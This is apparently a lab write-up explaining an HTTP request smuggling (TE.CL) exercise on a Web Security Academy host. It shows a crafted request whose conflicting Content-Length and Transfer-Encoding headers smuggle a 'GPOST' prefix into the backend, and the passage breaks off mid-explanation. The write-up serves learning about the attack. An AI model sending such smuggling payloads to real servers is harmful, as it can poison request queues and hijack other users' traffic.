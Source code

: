 We can't just remove `0` from the end because `0\r\n\r\n` is the valid ending of `Transfer-Encoding: chunked` 
If we remove it we'll get a `Read timeout` because the frontend server still expects the valid ending of the req body (which is `0\r\n\r\n`)

#### Detailed explanation:
For the sake of explanation clarity let's now have 2 separate requests:
Normal req:
```bash
POST / HTTP/1.1
Host: ff.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 7

foo=bar
```

Attack req:
```bash
POST / HTTP/1.1
Host: ff.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked
\r\n
56\r\n
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
\r\n
0\r\n
\r\n
```

First we send the `Attack req` and get back 200 OK response
Immediately after it we send `Normal req` and we get: "Unrecognized method GPOST"

So here's how it works:
When we first send `Attack req` the frontend server uses `Transfer-Encoding: chunked` for req parsing and therefore sends the whole `Attack req` to the backend server

The backend server only cares about `Content-Length` header
It first reads: `Content-Length: 4` and therefore ends processing of the req at `56\r\n` and so the remained part:
```bash
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
\r\n
0\r\n
\r\n
```
poisons the server.

When the `Normal req` is sent to the backend server, the backend server first processes the poisoned (`GPOST`) req 
